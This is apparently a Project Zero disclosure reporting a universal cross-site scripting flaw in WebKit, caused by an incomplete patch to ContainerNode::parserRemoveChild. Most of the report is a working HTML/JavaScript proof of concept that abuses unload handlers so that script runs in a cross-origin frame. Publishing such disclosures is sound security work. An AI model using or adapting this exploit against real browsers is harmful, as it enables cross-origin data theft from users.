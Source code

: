 # UXSS: the patch of #1110 made another bug

> Reported by <lokihardt@google.com>, Feb 16 2017

Here's the patch of #1110.
https://trac.webkit.org/changeset/212218/trunk/Source/WebCore/dom/ContainerNode.cpp

```cpp
void ContainerNode::parserRemoveChild(Node& oldChild)
{
    disconnectSubframesIfNeeded(*this, DescendantsOnly); <<---- (a)
    ...
}
```

(a) was added for the fix. But in |disconnectSubframesIfNeeded|, which fires unload event handlers, |oldChild|'s parent may be replaced. As a result, subframes of |oldChild| will be not detached.

PoC:

```html
<body>
    <div>
        <b>
            <p>
                <script>
                d = document.querySelector('div');
                p = document.querySelector('p');
                p.parentElement.appendChild(document.createElement('iframe')).contentWindow.onunload = () => {
                    document.body.appendChild(p);
                    d.remove();

                    f = p.appendChild(document.createElement('iframe'));
                    f.onload = () => {
                        f.onload = null;

                        document.documentElement.innerHTML = '';

                        f.src = 'javascript:alert(location)';

                        let xml = `
<svg xmlns="http://www.w3.org/2000/svg">
<script>
document.documentElement.appendChild(document.createElementNS('http://www.w3.org/1999/xhtml', 'iframe')).contentWindow.onunload = () => {
    document.documentElement.appendChild(parent.f.parentElement.parentElement.parentElement);
};
</sc` + `ript>
<element a="1" a="2" />
</svg>`;

                        let tmp = document.documentElement.appendChild(document.createElement('iframe'));
                        tmp.src = URL.createObjectURL(new Blob([xml], {type: 'text/xml'}));
                    };
                    f.src = 'https://abc.xyz/';
                };
                </script>
            </b>
        </p>
    </div>
</body>
```

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1132
